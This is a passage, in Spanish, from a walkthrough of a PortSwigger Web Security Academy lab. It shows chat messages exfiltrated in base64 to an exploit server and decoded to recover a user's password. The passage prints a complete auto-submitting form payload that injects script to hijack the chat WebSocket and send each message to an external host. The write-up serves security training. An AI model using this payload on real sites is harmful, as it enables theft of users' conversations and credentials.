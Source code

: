 Si nos vamos al `Access log` vemos que hemos `recibido` varias `peticiones` en `base64`

![](/assets/img/CSRF-Lab-9/image_27.png)

Si nos `copiamos` estas `cadenas` en el `Decoder` de `BurpSuite`, obtenemos la `contraseña` del `usuario carlos`

![](/assets/img/CSRF-Lab-9/image_28.png)

Otra forma `alternativa` es usando un `formulario`. Es importante no `URL encodear` el `value` de `username`, si lo hacemos, no funcionará el `payload`

```
<html>
    <body>
        <form action="https://cms-0ab000980478d98983e565b8006300a1.web-security-academy.net/login" method="POST">
            <input type="hidden" name="username" value="<script>
                var webSocket = new WebSocket('wss://0ab000980478d98983e565b8006300a1.web-security-academy.net/chat');
                webSocket.onopen = function() {
                    webSocket.send('READY');
                };
                webSocket.onmessage = function(event) {
                    var message = event.data;
                    fetch('https://exploit-0a4b00930450d90983516446017f008f.exploit-server.net/exploit?log=' + btoa(message), {method: 'GET'});
                };
            </script>">
            <input type="hidden" name="password" value="test">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Nos dirigimos al `Exploit server`, `pegamos` el `payload` y pulsamos sobre `Deliver exploit to victim`
